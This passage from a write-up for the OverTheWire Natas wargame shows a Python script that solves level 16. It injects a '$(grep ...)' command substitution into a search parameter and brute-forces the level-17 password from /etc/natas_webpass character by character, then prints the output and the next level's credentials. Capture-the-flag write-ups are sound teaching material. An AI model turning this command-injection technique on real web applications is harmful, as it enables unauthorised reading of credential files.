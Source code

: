 ```html
</body>
</html>
```

Try to brute-force as before:

```python
import requests
import string

letters = "".join([string.ascii_letters, string.digits])
url = "http://natas16.natas.labs.overthewire.org"
natas16_username = "natas16"
natas16_password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"


def brute_force_password():
    password = ""
    while len(password) < 32:
        for c in letters:
            test = '$(grep -E ^' + password + c + \
                '.* /etc/natas_webpass/natas17)'
            uri = url + '?needle=' + test + '&submit=Search'
            resp = requests.get(uri, auth=(natas16_username, natas16_password))
            if len(resp.text) == 1105:
                password += c
                break
    return password


if __name__ == "__main__":
    password = brute_force_password()
    print(password)
```

Execution:

```bash
$ python natas16.py
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```

## Natas 17

### Credentials

Username: natas17

Password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

URL: http://natas17.natas.labs.overthewire.org

### Message
